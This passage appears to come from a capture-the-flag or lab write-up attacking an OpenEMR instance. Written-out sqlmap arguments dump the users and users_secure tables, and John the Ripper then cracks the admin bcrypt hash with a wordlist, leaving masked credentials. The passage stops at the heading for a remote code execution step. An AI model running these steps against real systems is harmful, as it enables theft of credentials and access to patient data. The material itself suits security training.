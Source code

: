 `-D openemr -T users --columns`

`-D openemr -T users -C username,password --dump`

```
Database: openemr
Table: users
[3 entries]
+-----------------+--------------+
| username        | password     |
+-----------------+--------------+
| openemr_admin   | NoLongerUsed |
| phimail-service | NoLogin      |
| portal-user     | NoLogin      |
+-----------------+--------------+
```

It seems not to be the right table, lets' try this one instead.

`-D openemr -T users_secure -C username,password --dump`

```
Database: openemr
Table: users_secure
[1 entry]
+---------------+--------------------------------------------------------------+
| username      | password                                                     |
+---------------+--------------------------------------------------------------+
| openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. |
+---------------+--------------------------------------------------------------+
```

Let's put the hash in a file to crack it with [JtR][JtR]:

```
$ printf %s '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.' > hash.txt
$ john -w /usr/share/wordlists/password/rockyou.txt --format=bcrypt hash.txt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/password/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:01 DONE (2020-07-15 00:51) 0.6369g/s 722.2p/s 722.2c/s 722.2C/s water..zombie
Use the "--show" option to display all of the cracked passwords reliably
Session completed
$ john --show hash.txt
?:xxxxxx

1 password hash cracked, 0 left
```

Now we have some creds: `openemr_admin` / `xxxxxx`.

### HTTP exploitation (OpenEMR): RCE
